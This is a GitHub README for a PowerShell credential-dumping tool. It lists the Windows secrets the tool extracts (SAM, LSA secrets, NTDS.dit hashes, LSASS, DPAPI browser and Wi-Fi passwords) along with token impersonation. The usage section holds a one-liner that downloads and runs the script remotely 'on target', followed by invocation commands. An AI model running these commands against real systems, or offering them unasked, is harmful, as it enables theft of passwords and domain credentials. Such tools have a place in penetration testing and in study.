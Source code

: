 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Windows Secrets.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs/EDRs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Account password for Windows Services (not Scheduled Tasks) in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * Chrome cookies/passwords<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
      * LM and NT Hashes
      * Domain Backup Keys
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -SAM
Get-WindowsSecrets -LSA
Get-WindowsSecrets -CachedDomainCreds
Get-WindowsSecrets -VNC
Get-WindowsSecrets -NTDS
Get-WindowsSecrets -NTDS -ExportDomainBackupKey
Get-WindowsSecrets -SessionTokens
Get-WindowsSecrets -SessionTokens -FilterUser "Administrator"
Get-WindowsSecrets -ActivatePrivilege "SeShutdownPrivilege"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "ImpersonateLoggedOnUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessWithToken"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser" -Command "whoami"
Get-WindowsSecrets -LSASS
Get-WindowsSecrets -DPAPI [-SkipLSASS] [-SkipNTDS]
Get-WindowsSecrets -DPAPI -ImportDomainBackupKey <HexStringDomainBackupKeyPVKFormat> -SkipNTDS
Get-WindowsSecrets -DPAPI -InUserContext [-NoMasterKeysDecryption]
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2'
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
